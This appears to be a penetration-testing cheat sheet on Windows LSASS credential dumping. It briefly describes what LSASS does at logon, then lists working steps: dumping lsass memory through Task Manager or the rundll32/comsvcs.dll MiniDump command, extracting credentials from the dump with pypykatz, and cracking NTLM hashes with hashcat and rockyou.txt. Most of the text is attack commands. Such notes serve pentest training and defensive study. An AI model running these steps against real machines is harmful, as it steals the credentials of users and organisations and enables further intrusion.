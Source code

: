 - Upon initial logon, LSASS will:
	- Cach credetnials locally in memory
	- Create access tokens
	- Enforce security policies
	- Write to Windows security log

## Dumping LSASS Process Memory
- Task Manager Method
	- Open Task Manager > Select The Process tab > Find & right click the Local Security Authroity Process > Select Create dump file
	- A file called lsass.DMP is created nad saved in `C:\Users\loggedonusersdirectory\AppData\Local\Temp`
- Rundll32.exe & Comsvcs.dll Method
	- First, determin the PID assigned to the lsass.exe
		 ```shell
			# Command prompt
			tasklist /svc

			# PowerShell
			Get-Process lsass
		```
	 - Create lsass.dmp in PowerShell
	 ```shell
	 rundll32 C:\windows\system32\comsvcs.dll, MiniDump $PID C:\lsass.dmp full
		# Note: This command will be flagged by AV. 
	```

## Extract Credentials using Pypykatz
```bash
pypykatz lsa minidump ./lsass.dump
```

## Crack hash
```bash
hashcat -m 1000 $hash rockyou.txt
```
